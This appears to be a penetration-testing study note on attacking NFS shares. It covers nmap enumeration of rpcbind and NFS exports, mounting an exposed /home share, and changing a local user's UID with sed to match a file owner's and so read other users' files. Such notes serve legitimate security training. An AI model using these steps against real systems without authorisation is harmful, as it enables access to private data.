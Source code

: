 


Network File System - Distributed file system protocol allowing a user on a client computer to access files over a computer network as if they were on locally-mounted storage.  
  
Often used w/ UNIX OS's, predominantly insecure in its implementation, and easy to leverage.  
  
  
**Portmapper** and [RPCbind](RPCbind.md) run on 111/TCP  
```bash
nmap -sV -p 111 --script=rpcinfo <ip>
```


**Portmapper** manages the port mappings of a UPnP enabled internet gateway device in the local network  
  
[RPCbind](RPCbind.md) maps RPC services to the ports on which they listen  
  
  
[nmap](nmap.md) - has 3 [NSE scripts](NSE.md) located in _/usr/share/nmap/scripts/nfs*_  
  
Can be run together: 
```bash
nmap -p 111 --script=nfs* <ip>
```

 
Nmap scan report for 10.11.1.72  
PORT STATE SERVICE  
111/tcp open rpcbind  
| nfs-showmount:  
|_ /home 10.11.0.0/255.255.0.0  
  
^^ Shows the entire **/home** directory is being shared and can be mounted.  
  
**-o** **nolock** is used to disable file locking - often needed for older NFS servers  
  
```bash
mkdir home  
sudo mount -o nolock 10.11.1.72:/home ~/home/  
cd home/ && ls  
        jenny joe45 john marcus ryuu
```

^^ Shows multiple users' home directories  
  
Likely won't have permission to view files, so we can [adduser](User%20Mgmt.md), use [sed](Cmdline%20Tools.md#sed) to change it's UUID to the same UUID of the owner of the desired file, [su](User%20Mgmt.md) to that user, and try accessing again.  
  
To change a UUID:  
```bash
sudo sed -i -e 's/old_UUID/new_UUID/g' /etc/passwd
```